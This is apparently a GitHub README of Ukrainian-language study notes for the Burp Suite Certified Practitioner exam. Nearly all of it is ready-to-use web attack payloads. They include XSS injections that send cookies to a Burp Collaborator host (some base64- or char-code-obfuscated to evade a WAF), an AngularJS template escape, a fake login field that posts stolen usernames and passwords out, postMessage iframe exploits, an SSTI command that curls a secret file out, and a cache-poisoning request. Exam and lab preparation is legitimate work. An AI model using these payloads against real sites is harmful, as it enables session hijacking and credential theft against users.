 # Burp-exam-notes

>Тут я викладу матеріали які можуть допомогти під час складання екзамену Burp Suite Certified Practitioner Exam. Частину із них я взяв [тут](https://github.com/DingyShark/BurpSuiteCertifiedPractitioner), але як виявилось на практиці не всі вони були готові, деякі варто було допиляти, а деякі змінити, що забрало подекуди багато часу, з огляду на те, що сам екзамен триває 4 години. Тому дуже важливо мати усі ін'єкції робочі та перевірені, і не гаяти часу на їх виправлення під час самого екзамену.
>Корисні підказки для складання екзамену від [PortSwigger](https://portswigger.net/web-security/certification/exam-hints-and-guidance/retaking-your-exam)

----

**+eval**
```
"+eval(atob("ZmV0Y2goImh0dHBzOi8vYnVycC5vYXN0aWZ5LmNvbS8/Yz0iK2J0b2EoZG9jdW1lbnRbJ2Nvb2tpZSddKSk="))}//

``` 
>тут в base64 передається 
```
fetch("https://burp.oastify.com/?cookie="+btoa(document['cookie']))
```
**+eval URL encode**
>тут готова ін'єкція яка повертає відповідно на колаборатор кукі, просто передати script у exploit server
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?SearchTerm=%22%2Beval(atob(%22ZmV0Y2goImh0dHBzOi8vMmNmbTZlMmFpajVmZWQ3ZXl4ZTN3Mnc0dXYwbW9oYzYub2FzdGlmeS5jb20vP2M9IitidG9hKGRvY3VtZW50Wydjb29raWUnXSkp%22))}%2F%2F"
</script>
```
**Function`X$**
>-Function`X$ тут у нас ін'єкція із використанням динамічних шаблонів, вміст всередині ${...} виконується під час виконання шаблону.
```
"-Function`X${'document.location="https://burp.oastify.com/"+document.cookie'}```-"
```
>адаптована версія із використанням Function`X$, лише передати script у exploit server для отримання cookies
```
<script>
location="https://YOUR-LAB-ID.web-security-academy.net/?find=%22-Function`X${'document.location=%22https://burp.oastify.com/%22%2Bdocument.cookie'}```-%22"
</script>
```
**XSS+cookie**
```
<script>document.location='//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/'+document.cookie</script>
```
```
"></select><script>document.location='http://burp.oastify.com/?cookie='+document.cookie</script>
```
```
\"-fetch('http://burp.oastify.com?c='+btoa(document.cookie))}//
```
```
<><img src=1 onerror="window.location='http://burp.oastify.com/c='+document.cookie">
```
```
<script>document.write('<img+src="http://burp.oastify.com?c='+document.cookie+'"+/>');</script>
```
```
</script><script>document.location="http://burp.oastify.com/?cookie="+document.cookie</script>
```
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=<body onload=document.location='https://burp.oastify.com/?cookie='+document.cookie tabindex=1>#x';
</script>
```
>готова ін'єкція для query параметру, якщо такий вразливий
```
<script>
location = 'https://YOUR-LAB-ID.web-security-academy.net/?query=%3Cbody+onload%3Ddocument.location%3D%27https%3A%2F%2Fburp.oastify.com%2F%3Fc%3D%27%2Bdocument.cookie%20tabindex=1%3E#x';
</script>
```
```
\';document.location=`http://burp.oastify.com/?cookie=`+document.cookie;//
```
>викликаємо XSS через id=x, якщо задати в посиланні #x
```
<xss id=x onfocus=document.location="http://burp.oastify.com/?cookie="+document.cookie tabindex=1>#x
```
>ULR Encoded:
```
%3Cxss%20id=x%20onfocus=document.location=%22http://burp.oastify.com/?cookie=%22+document.cookie%20tabindex=1%3E#x
```
>підбір tag та event (є така лабораторна робота у portswigger)
```
<svg><animatetransform onbegin=document.location='https://burp.oastify.com/?cookie='+document.cookie;>
```
>URL Encoded:
```
%3Csvg%3E%3Canimatetransform%20onbegin=document.location='https://burp.oastify.com/?cookie='+document.cookie;%3E
```
>викликаємо XSS через натискання жертвою кнопки x. Повний вигляд такий (для гарячої клавіші shift+X):
```
https://xxxxxx.net/?'accesskey='x'onclick='document.location="https://your-collaborator-url.com/?cookie="+document.cookie' 
```
***WAF***
>трохи спробуємо обійти WAF
```
</ScRiPt ><ScRiPt >document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />');</ScRiPt > 
```
>і передати його у ASCII (можна використовувати цей [сервіс](https://www.allmath.com/ascii-to-text.php), досить зручний)
```
</ScRiPt ><ScRiPt >document.write(String.fromCharCode(60, 105, 109, 103, 32, 115, 114, 99, 61, 34, 104, 116, 116, 112, 58, 47, 47, 99, 51, 103, 102, 112, 53, 55, 56, 121, 56, 107, 51, 54, 109, 98, 102, 56, 112, 113, 120, 54, 113, 99, 50, 110, 116, 116, 107, 104, 97, 53, 122, 46, 111, 97, 115, 116, 105, 102, 121, 46, 99, 111, 109, 63, 99, 61) + document.cookie + String.fromCharCode(34, 32, 47, 62, 60, 47, 83, 99, 114, 105, 112, 116, 62));</ScRiPt >
```
```
"-alert(window["document"]["cookie"])-"
```
```
"-window["alert"](window["document"]["cookie"])-"
```
```
"-self["alert"](self["document"]["cookie"])-"
```
**Angular**
>тут у нас ін'єкція яка застосовується на сторінці із використанням AngularJS. 
constructor.constructor в Angular дає доступ до глобальної функції Function, яка дозволяє створювати і виконувати JavaScript-код у шаблоні. 
```
{{constructor.constructor('document.location="http://burp.oastify.com?c="+document.cookie')()}}
```
**XSS+input+cookie**
>ін'єкція для викрадення паролю і логіна користувача, який скористається формою для авторизації. Звісно, сторінка повинна мати вразливість до XSS.
```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('http://burp.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
***Iframe***
>частково універсальні для exploit server
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:fetch(\'https://your-collaborator-url.com/\'+document.cookie)','*')">
</iframe>
```
```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/" onload="this.contentWindow.postMessage('<img src=1 onerror=fetch(`https://your-collaborator-url.com?cookie=${document.cookie}`)>','*')">
</iframe>
```
***SSTI***
```
<%= system("curl https://your-collaborator-url.com/$(cat /home/carlos/secret)") %>
```
```
{{request.cookies.get('session')|urlize('https://your-collaborator-url.com/?cookie=')}}
```
***Web cache poisoning /js/geolocate.js***
```
GET /js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=document.location%3d'https%3a//your-collaborator-url.oastify.com/%3fcookie%3d'%2bdocument.cookie%3b
```
----



